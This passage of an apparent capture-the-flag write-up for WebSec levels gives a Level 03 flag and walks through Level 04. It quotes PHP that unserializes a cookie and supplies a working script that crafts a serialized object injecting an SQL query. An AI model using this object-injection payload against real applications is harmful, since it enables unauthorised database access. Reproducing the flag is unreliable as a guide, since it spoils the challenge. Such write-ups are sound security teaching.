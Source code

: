 This returns 104610: `WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}`

## Level 04

Deserialisation exploit here:

```php
if (isset ($_COOKIE['leet_hax0r'])) {    
	$sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));  
    try {  
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {  
            die('CANT HACK US!!!');  
        }  
    } catch(Exception $e) {  
        echo $e;  
    }  
} else {
	$cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;    
	setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));  
}
```

This cookie is used in conjunction with  `__destruct()`, allowing for PHP Object Injection. This allows me to inject my own code into the machine. 

```php
  public function __destruct() {  
        if (!isset ($this->conn)) {            
	        $this->connect ();  
        }               
		$ret = $this->execute ();  
        if (false !== $ret) {      
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {  
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';  
            }  
        }  
    }
```

Can set our own cookie and this would let me inject my own SQL class, and hence execute my own queries! The cookie allows for usage of "PHP POP Chains" via `__construct()` magic methods.

Using this, we can change the `$query` executed via injecting `__construct()` commands.

```php
<?php

class SQL {
    public $query;
    public $conn;
    public function __construct() {
        $this->query = "SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table'";
        $this->conn = NULL;
    }
}

$obj = new SQL();
echo urlencode((base64_encode(serialize($obj))));
?>
```
